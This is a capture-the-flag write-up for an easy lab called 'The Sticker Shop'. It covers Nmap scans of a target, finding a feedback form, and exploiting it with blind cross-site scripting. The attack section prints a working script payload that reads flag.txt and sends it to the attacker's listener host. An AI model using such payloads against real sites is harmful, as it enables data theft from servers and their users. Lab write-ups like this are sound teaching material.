






# The Sticker Shop

**Difficulty:** Easy

**Category:** Red Team

## 1. Reconnaissance

The first thing I did was perform reconnaissance by running an Nmap scan against the target IP (`10.49.138.65`) to identify any exposed services.

```bash
nmap 10.49.138.65
```

The scan shows that there are two open ports:

```text
22/tcp   open  ssh
8080/tcp open  http-proxy
```



To gather more information, I ran another scan using the `-sV` and `-sC` flags to detect service versions and execute the default Nmap scripts.

```bash
nmap -sV -sC 10.49.138.65
```



The results show that port `8080` is running **Werkzeug httpd 3.0.1**, which may become useful later.

---

## 2. Exploring the Web Application

Browsing to the web application presents a simple static website with two pages: **Home** and **Feedback**.

The **Feedback** page allows users to submit feedback to the server. Since user input is being processed, this suggests that the application could potentially be vulnerable to **Blind Cross-Site Scripting (Blind XSS)**.



---

## 3. Attack Phase

To receive data from the target, I started a Python HTTP server on my machine.

```bash
python -m http.server 1010
```



Next, I needed a Blind XSS payload. Since I wasn't very familiar with Blind XSS, I looked up some commonly used payloads to better understand how they work.

The payload below attempts to retrieve the contents of `flag.txt` from the target and send it back to my HTTP server.

```html
<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => {
    fetch('http://<YOUR-IP>:1010/?flag=' + encodeURIComponent(data));
  });
</script>
```

Replace `<YOUR-IP>` with the IP address of your VPN interface (such as `tun0`) and make sure the port matches the one your Python HTTP server is listening on.

After replacing my IP address, I submitted the payload through the feedback form.



---

## 4. Retrieving the Flag

Once the payload executed, my Python HTTP server received a request containing the contents of `flag.txt`. The flag was URL-encoded. You dont have to decode it since this is already the flag for this challenge.


